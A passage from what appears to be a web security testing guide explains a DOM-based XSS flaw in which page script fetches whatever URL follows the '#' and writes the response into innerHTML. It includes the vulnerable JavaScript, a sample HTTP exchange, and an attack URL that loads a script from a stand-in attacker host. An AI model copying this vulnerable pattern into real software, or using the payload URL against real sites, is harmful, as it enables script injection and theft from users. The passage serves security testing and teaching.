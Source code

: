     [Response Body]

**Example 2: Input validation issue, XSS with CORS:**

This code makes a request to the resource passed after the \# character in the URL, initially used to get resources in the same server.

Vulnerable code:

    <script>

    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
         if(req.readyState==4 && req.status==200) {
              document.getElementById("div1").innerHTML=req.responseText;
         }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
    </script>

    <body>
    <div id="div1"></div>
    </body>

For example, a request like this will show the contents of the profile.php file:

[`http://example.foo/main.php#profile.php`](http://example.foo/main.php#profile.php)

Request and response generated by this URL:

    GET http://example.foo/profile.php HTTP/1.1
    Host: example.foo
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Referer: http://example.foo/main.php
    Connection: keep-alive

    HTTP/1.1 200 OK
    Date: Mon, 07 Oct 2013 18:20:48 GMT
    Server: Apache/2.2.16 (Debian)
    X-Powered-By: PHP/5.3.3-7+squeeze17
    Vary: Accept-Encoding
    Content-Length: 25
    Keep-Alive: timeout=15, max=99
    Connection: Keep-Alive
    Content-Type: text/html

    [Response Body]

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

[`http://example.foo/main.php#http://attacker.bar/file.php`](http://example.foo/main.php#http://attacker.bar/file.php)
